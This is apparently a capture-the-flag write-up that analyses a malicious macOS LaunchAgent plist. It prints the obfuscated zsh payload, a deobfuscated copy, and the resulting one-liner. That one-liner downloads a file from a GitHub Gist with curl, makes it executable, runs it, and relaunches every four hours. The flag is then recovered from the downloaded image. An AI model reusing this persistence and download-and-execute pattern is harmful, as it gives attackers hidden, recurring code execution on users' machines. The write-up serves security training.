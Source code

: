 Using `strings` on it, we find a base64 string with decodes to some bash script:

```html
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"><plist version="1.0"><dict><key>Label</key><string>com.huntress.ctf</string><key>ProgramArguments</key><array><string>/bin/zsh</string><string>-c</string><string>A0b='tmp="$(m';A0bERheZ='ktemp /tmp/XX';A0bERheZX='XXXXXX)"';A0bER='; curl --';A0bE='retry 5 -f ';A0bERh='"https://';A0bERheZXDRi='gist.githu';xbER='b.com/s';juuQ='tuartjas';juuQQ7l7X5='h/a7d18';juuQQ7l7X5yX='7c44f4327';juuQQ7l7X5y='739b752d037be45f01';juuQQ7='" -o "${tmp}"; i';juuQQ7l7='f [[ -s "${tmp}';juuQQ7l7X='" ]];';juQQ7l7X5y=' then chm';juQQ7l='od 777 "${tmp}"; ';zRO3OUtcXt='"${tmp}"';zRO3OUt='; fi; rm';zRO3OUtcXteB=' "${tmp}"';echo -e ${A0b}${A0bERheZ}${A0bERheZX}${A0bER}${A0bE}${A0bERh}${A0bERheZXDRi}${xbER}${juuQ}${juuQQ7l7X5}${juuQQ7l7X5yX}${juuQQ7l7X5y}${juuQQ7}${juuQQ7l7}${juuQQ7l7X}${juQQ7l7X5y}${juQQ7l}${zRO3OUtcXt}${zRO3OUt}${zRO3OUtcXteB} | /bin/zsh</string></array><key>RunAtLoad</key><true /><key>StartInterval</key><integer>14400</integer></dict></plist>
```

With an editor having syntax highlighting it is easier to clean the code:

```bash
A0b='tmp="$(m';
A0bERheZ='ktemp /tmp/XX';
A0bERheZX='XXXXXX)"';
A0bER='; curl --';
A0bE='retry 5 -f ';
A0bERh='"https://';
A0bERheZXDRi='gist.githu';
xbER='b.com/s';
juuQ='tuartjas';
juuQQ7l7X5='h/a7d18';
juuQQ7l7X5yX='7c44f4327';
juuQQ7l7X5y='739b752d037be45f01';
juuQQ7='" -o "${tmp}"; i';
juuQQ7l7='f [[ -s "${tmp}';
juuQQ7l7X='" ]];';
juQQ7l7X5y=' then chm';
juQQ7l='od 777 "${tmp}"; ';
zRO3OUtcXt='"${tmp}"';
zRO3OUt='; fi; rm';
zRO3OUtcXteB=' "${tmp}"';
echo -e ${A0b}${A0bERheZ}${A0bERheZX}${A0bER}${A0bE}${A0bERh}${A0bERheZXDRi}${xbER}${juuQ}${juuQQ7l7X5}${juuQQ7l7X5yX}${juuQQ7l7X5y}${juuQQ7}${juuQQ7l7}${juuQQ7l7X}${juQQ7l7X5y}${juQQ7l}${zRO3OUtcXt}${zRO3OUt}${zRO3OUtcXteB} | /bin/zsh
```

So if we remove the final pipe we won't be harmed, let's execute the echo.

```bash
tmp="$(mktemp /tmp/XXXXXXXX)"; curl --retry 5 -f "https://gist.github.com/stuartjash/a7d187c44f4327739b752d037be45f01" -o "${tmp}"; if [[ -s "${tmp}" ]]; then chmod 777 "${tmp}"; "${tmp}"; fi; rm "${tmp}"
```

The Gist file is in fact a picture. The flag is inside:

```console
$ strings /tmp/JohnHammond.jpg | grep flag
; flag{680b736565c76941a364775f06383466}
```
